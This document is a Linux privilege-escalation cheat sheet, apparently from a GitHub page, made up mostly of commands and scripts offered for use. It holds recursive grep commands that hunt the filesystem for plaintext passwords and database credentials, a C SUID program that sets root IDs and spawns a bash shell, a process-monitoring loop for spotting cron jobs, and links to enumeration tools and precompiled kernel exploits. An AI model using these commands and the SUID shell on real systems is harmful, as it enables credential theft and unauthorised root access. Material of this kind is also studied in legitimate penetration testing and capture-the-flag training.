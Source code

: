 ### Find plain passwords

```
grep -rnw '/' -ie 'pass' --color=always
grep -rnw '/' -ie 'DB_PASS' --color=always
grep -rnw '/' -ie 'DB_PASSWORD' --color=always
grep -rnw '/' -ie 'DB_USER' --color=always
```

### Scripts

#### SUID

```
int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}

# Compile
gcc suid.c -o suid
```

#### PS Monitor for cron

```
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
	sleep 1
	old_process=$new_process
done

```

### Linux Privesc Tools

- [GTFOBins](https://gtfobins.github.io/)
- [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [LinuxExploitSuggester](https://gitlab.com/kalilinux/packages/linux-exploit-suggester/blob/kali/master/Linux_Exploit_Suggester.pl)
- [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

### Linux Precompiled Exploits
- [kernel-exploits](https://github.com/lucyoa/kernel-exploits)
